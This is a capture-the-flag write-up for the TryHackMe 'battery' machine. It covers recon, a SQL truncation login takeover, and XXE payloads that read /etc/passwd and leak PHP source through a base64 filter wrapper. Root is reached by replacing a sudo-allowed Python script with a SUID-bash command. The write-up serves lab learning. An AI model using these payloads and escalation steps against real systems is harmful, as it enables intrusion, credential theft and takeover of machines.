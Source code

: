# battery - TryHackMe Writeup

**Difficulty:** Medium  
**TL;DR:** SQL Truncation Attack → XXE Injection → SSH Credentials → Privilege Escalation
---------------------------
## Target
- Machine: `battery.thm`  
- Date: `2025-10-16`  
- Environment: TryHackMe / CTF
---------------------------

## Steps

---------------------------
## 1.Initial scan
Start recon with nmap

```bash
└─$ nmap -sS -Pn -T4 -p- battery.thm

22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
```

----------------------------

## 2.Directory Enumeration

```bash
└─$ gobuster dir -u http://battery.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -x .php,.txt

/register.php         (Status: 200) [Size: 715]
/admin.php            (Status: 200) [Size: 663]
/scripts              (Status: 301) [Size: 311] [--> http://battery.thm/scripts/]
/forms.php            (Status: 200) [Size: 2334]
/report               (Status: 200) [Size: 16912]
/logout.php           (Status: 302) [Size: 0] [--> admin.php]
/dashboard.php        (Status: 302) [Size: 908] [--> admin.php]
/acc.php              (Status: 200) [Size: 1104]
/with.php             (Status: 302) [Size: 1259] [--> admin.php]
/tra.php              (Status: 302) [Size: 1399] [--> admin.php]

```

----------------------------------

Downloaded `/report` binary.

```bash
└─$ file report 
report: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=44ffe4e81d688f7b7fe59bdf74b03f828a4ef3fe, for GNU/Linux 3.2.0, not stripped
```
Discover the file 
```bash
└─$ strings report

===============List of active users================
support@bank.a
contact@bank.a
cyber@bank.a
admins@bank.a
sam@bank.a
admin0@bank.a
super_user@bank.a
control_admin@bank.a
it_admin@bank.a

```
-----------------------------------------

## 3.SQL Truncation Attack

During analysis of the `/report` binary, I discovered a list of active users including `admins` and `admin0`. This pattern suggested a potential **Username Spoofing** vulnerability.

**Attack Execution:**
1. **Identified the vulnerability:** The presence of similar usernames indicated weak input validation
2. **Crafted malicious username:** Registered with `admin@bank.a--` 
3. **Bypassed authentication:** The database truncated the username to `admin@bank.a`
4. **Successfully logged in** using:
   - Username: `admin@bank.a` 
   - Password: `admin`

**Technical Insight:** The SQL database truncated the trailing `--` characters, causing a collision with the existing admin account and allowing password reset/overwrite.

*Note: Burp Suite was used to intercept and modify the registration request.*

![SQL-Truncation-Attack](images/SQL-Truncation-Attack.png)
*Figure: SQL-Truncation-Attack*

------------------

## 4. XXE Injection (XML External Entity)

After gaining admin access, I discovered an XML processing functionality in the command section at `/forms.php`.

### Discovery Phase
The application was processing XML input in the search functionality, which prompted XXE testing.

![XXE-Discovery](images/XXE-1.png)
*Figure: XML input field in /forms.php*

### Initial Testing
I started with a basic XXE payload to read `/etc/passwd`:

![XXE-Testing](images/XXE-2.png)
*Figure: XXE injection*

the payload :

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY test SYSTEM "file:///etc/passwd">
]>
<root><name>test</name><search>&test;</search></root>
```
However, when attempting to access `acc.php` directly or with suspicious input, the application returned:		'RCE Detected!'

Note: acc.php is a separate page that acts as a RCE detection mechanism, blocking direct malicious access attempts.

### Bypass Using PHP Wrapper

To bypass the detection, I utilized PHP filters within the XXE payload itself to encode the output:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY test SYSTEM "php://filter/convert.base64-encode//resource=acc.php">
]>
<root><name>test</name><search>&test;</search></root>
```
![XXE-acc.php](images/XXE-3.png)
*Figure: XXE injection with php wrapper*
The XXE payload successfully returned a base64-encoded version of `acc.php` content:

After decoding the response using CyberChef:
![Decode-CyberChef](images/CyberChef-SSH.png)
*Figure: Decoding the base64 output revealing SSH credentials in acc.php*

### Credentials Found within acc.php:
    Username: cyber
    Password: [REDACTED]!

-------------------------
## Base Flag

Connected via SSH using extracted credentials.

The first flag was located in the user's home directory:
```bash

cyber@ubuntu:~$ id
uid=1000(cyber) gid=1000(cyber) groups=1000(cyber),4(adm),24(cdrom),30(dip),46(plugdev),110(lpadmin),111(sambashare)
cyber@ubuntu:~$ ls
flag1.txt  run.py
cyber@ubuntu:~$ cat flag1.txt 

THM{[REDACTED]}

Sorry I am not good in designing ascii art :(
```
-----------------------------

## User Flag

Time to Privilege Escalation

```bash
cyber@ubuntu:~$ sudo -l

    (root) NOPASSWD: /usr/bin/python3 /home/cyber/run.py
```
The run.py script had restrictive permissions:
```bash
cyber@ubuntu:~$ ls -la run.py 
-rwx------ 1 root root 349 Nov 15  2020 run.py
```
While we could execute the script as root without password, we couldn't modify it directly due to root ownership.

### Exploitation via Script Hijacking

```bash
cyber@ubuntu:~$ mv run.py /tmp/
cyber@ubuntu:~$ echo "import os; os.system('chmod +s /bin/bash')" > run.py
cyber@ubuntu:~$ sudo /usr/bin/python3 /home/cyber/run.py
cyber@ubuntu:~$ bash -p
bash-4.3# id
uid=1000(cyber) gid=1000(cyber) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),110(lpadmin),111(sambashare),1000(cyber)

bash-4.3# cat /home/yash/flag2.txt 
THM{[REDACTED]}


Sorry no ASCII art again :(
bash-4.3# 
```
-----------------------------------

## Root Flag 

Captured the final flag from `/root/root.txt`:

```bash
bash-4.3# cat /root/root.txt 
████████████████████████████████████  
██                                ██  
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██                                ██  
████████████████████████████████████  


                                        battery designed by cyberbot :)
                                        Please give your reviews on catch_me75@protonmail.com or discord cyberbot#1859



THM{[REDACTED]}
```
We done

